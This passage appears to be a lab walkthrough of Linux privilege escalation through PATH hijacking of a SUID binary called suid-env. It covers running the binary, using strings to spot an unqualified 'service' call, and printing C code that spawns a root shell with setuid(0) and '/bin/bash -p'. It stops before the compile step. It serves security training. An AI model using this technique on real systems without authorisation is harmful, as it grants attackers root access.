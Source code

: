 First, run the executable to observe its behavior:

```bash
/usr/local/bin/suid-env
```

**Sample Output:**

```bash
[....] Starting web server: apache2httpd (pid 1496) already running
. ok
```

**Explanation:**  
The output suggests that the executable tries to start the Apache web server. This is a clue that the program calls the `service` command to start the server, but the command is not being called with an absolute path.

### Step 2: Analyze the Executable

Use the `strings` command to search for readable strings within the executable, which can reveal important information about its operations:

```bash
strings /usr/local/bin/suid-env
```

**Sample Output:**

```bash
service apache2 start
```

**Explanation:**  
The output confirms that the executable attempts to run the `service` command without specifying its full path. This allows us to exploit the vulnerability by creating a malicious `service` executable in a directory that appears earlier in the `PATH`.

### Step 3: Exploit the Vulnerability

**1. Review and Compile the Malicious Service Executable:**

The exploit code, located at `/home/user/tools/suid/service.c`, is designed to spawn a root shell:

```bash
cat /home/user/tools/suid/service.c
```

**Sample Code:**

```c
int main() {
    setuid(0);
    system("/bin/bash -p");
}
```

**Explanation:**  
This code runs the `setuid(0)` function to elevate privileges to root, followed by spawning a bash shell.
